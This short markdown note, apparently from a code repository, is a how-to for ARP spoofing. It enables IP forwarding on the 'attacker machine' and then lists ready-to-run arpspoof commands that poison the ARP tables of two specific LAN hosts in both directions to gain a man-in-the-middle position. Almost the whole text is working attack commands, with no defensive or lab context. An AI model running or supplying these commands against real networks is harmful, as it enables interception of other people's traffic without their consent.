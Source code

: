 # Performing ARP Spoofing with arpspoof

## Activating IP Forwarding on Attacker Machine
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Running arpspoof 
- Syntax
```
arpspoof -i <interface> -t <target_ip> <victim_ip>
```
- Execution Commands
```
arpspoof -i eth0 -t 192.168.4.151 192.168.4.199
arpspoof -i eth0 -t 192.168.4.199 192.168.4.151
```